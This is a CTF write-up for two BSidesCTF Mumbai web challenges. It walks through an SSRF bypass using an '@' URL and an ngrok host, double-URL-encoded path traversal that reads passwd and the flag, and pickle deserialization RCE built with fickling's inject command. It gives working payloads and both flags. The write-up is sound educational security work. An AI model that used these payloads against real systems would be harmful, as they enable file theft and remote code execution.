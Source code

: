 ------------------

### CTF BSIDESCTF MUMBAI

------------------

![image](https://github.com/user-attachments/assets/a4b42a64-1f70-4091-b3ae-4aa84d952a30)


--------------------

### Challenges

--------------------

- Web-:
  - Phantom-Binding
  - Worthless

---------------------

### [Web]Phantom Binding

----------------------

![image](https://github.com/user-attachments/assets/a965b09f-e7d8-4b06-8b86-42ae916c4476)

-----------------------

- Ffuf's output-:

![image](https://github.com/user-attachments/assets/9d6a9321-1805-47cf-ab05-6569fdf954ee)


- Users get greeted with the login and register page.I followed the normal sequence by creating an account and logging in.

![image](https://github.com/user-attachments/assets/8d53fcbe-0e53-4760-8c75-adf5fcffe96e)

- I noticed a functionality that allows us to upload image through files or url.This can be an interesting point to try out ServerSide Request Forgery.

![image](https://github.com/user-attachments/assets/1fe12180-6655-43b8-a4a3-da665ef2804a)

- I tried to access internal port with the localhost but I didn't get a hit because it got filtered.

![image](https://github.com/user-attachments/assets/7b5d308f-119e-464d-b5a4-c95819f5455e)

- I decided to try this ssrf trick that requires `@`.Any host placed after `@` will get loaded and not the host before it.

```
google.com@127.0.0.1
```

- The `127.0.0.1` will get picked over `google.com`.In my case, I used an ngrok host.

![image](https://github.com/user-attachments/assets/7bcc45d7-acb9-4df8-ab94-8e91fc0e4d3d)

- The output gets rendered as an image as seen below.

```html


<!DOCTYPE html>
<html>
<head>
    <title>CTF Challenge</title>
    <style>
        body {
            font-family: Arial, sans-serif;
            margin: 0;
            padding: 20px;
            background-color: #f5f5f5;
        }
        .container {
            max-width: 800px;
            margin: 0 auto;
            background-color: #fff;
            padding: 20px;
            border-radius: 5px;
            box-shadow: 0 0 10px rgba(0,0,0,0.1);
        }
        h1 {
            color: #333;
        }
        .error {
            color: red;
            margin-bottom: 10px;
        }
        .success {
            color: green;
            margin-bottom: 10px;
        }
        input[type="text"], input[type="password"], input[type="file"] {
            width: 100%;
            padding: 10px;
            margin-bottom: 10px;
            border: 1px solid #ddd;
        }
        .user-table {
            width: 100%;
            border-collapse: collapse;
            margin-top: 20px;
        }
        .user-table th, .user-table td {
            padding: 8px;
            border: 1px solid #ddd;
            text-align: left;
        }
        .user-table th {
            background-color: #f2f2f2;
        }
    </style>
</head>
<body>
    <div class="container">
        
    <h1>Login</h1>
    
    <form method="post">
        <input type="text" name="username" placeholder="Username" required>
        <input type="password" name="password" placeholder="Password" required>
        <button type="submit">Login</button>
    </form>
    <p>Don't have an account? <a href="/register">Register here</a></p>

    </div>
</body>
</html>
```
- I accessed the admin page next and noticed an endpoint that allows us to view files.

![image](https://github.com/user-attachments/assets/f9a7d216-fe71-4043-b1ab-1846a008312a)

- This functionality will be a good stand to test path traversal to gain `Arbitrary file read`.I tried the basic `../../` but I got a 403 error.

![image](https://github.com/user-attachments/assets/43d48383-dfe2-4dfd-a058-e1de48655628)

- I tested the double-url encoded trick which worked.I was able to read the passwd file.

![image](https://github.com/user-attachments/assets/d9898361-24b0-4560-89cd-69e378a3413c)

- After checking the common spots for the flag file.I could not find the file.I rechecked the admin page for hints and I got one.A php file points to the flag which is being stored at `/var/flag/flag.txt`.

![image](https://github.com/user-attachments/assets/cf2e2e16-f67c-45dc-84f5-c0a58ad43c3d)

![image](https://github.com/user-attachments/assets/14f943ee-7bea-4765-a7a1-2e82ee0382a4)

- I read the flag with this payload-:

```url
http://6.tcp.eu.ngrok.io:16967@127.0.0.1/admin/view_file?file=%252E%252E%252F%252E%252E%252Fvar%252Fflag%252Fflag.txt
```

- Flag-: ```BMCTF{LOCALHOST_isnt_ALWAYS_local}```

![image](https://github.com/user-attachments/assets/ed515136-f3a7-4b78-be08-cd59b97700af)

-----------------

### [Web]Worthless

-----------------

![image](https://github.com/user-attachments/assets/6b7c4656-ca80-4896-a5ef-30ecc03eb0ea)

-----------------

- The chain in this challenge is `Insecure Deserialization via pkl files upload to RCE`.It is not news that `pickle.loads()` is a vulnerable function.Also the upload of pkl files which is used to store pickle bytes can be exploited if directly passed to `pickle.loads()`.This site allows upload of pickle `pkl` files.

![image](https://github.com/user-attachments/assets/0231794f-c2cc-4e43-8920-e391610dc116)

- I injected malicious code into the pkl file with `ficling`.You can install with `pip instal fickling`.

![image](https://github.com/user-attachments/assets/4ac08420-ef37-4539-9889-a169c18c3ffa)

- Syntax to run it-:

```bash
fickling --inject "int(__import__('os').popen('ls').read())" portfolio.pkl > ./portfolioz.pkl
```

- I tried to pop a reverse shell but it didn't work and was also unsure if I had gained RCE.After futile efforts, I noticed that the site returns errors mainly due to bad code syntax.

![image](https://github.com/user-attachments/assets/0870b4fa-5363-4134-bd54-8f10697f0fa6)

- This is an awesome discovery because I can use the error to read the output of `os.system()`.I did this by abusing `int()` feature which is used for integers in python.`int()` triggers an error and also expose a value in the error if it is a string.Example-:

![image](https://github.com/user-attachments/assets/34e21c2d-a928-46d9-a2af-023548153dae)

- I used it to read the value of the command `ls` that I executed.

![image](https://github.com/user-attachments/assets/719c1491-79e4-40c0-af4d-f05a4ec00d5a)

![image](https://github.com/user-attachments/assets/8f026c1b-023f-43fc-b192-4e462f4978be)

- Final payload-:

```
fickling --inject "int(__import__('os').popen('cat flag.txt').read())" portfolio.pkl > ./portfolioz.pkl
```
- Flag-: ```BMCTF{pretty_lil_baby_you_say_that_maybe_youll_be_thinking_of_me_and_try_to_H4CK_me}```

![image](https://github.com/user-attachments/assets/41b2a1f2-63bb-4a91-8992-48ffd503ef47)


------------------














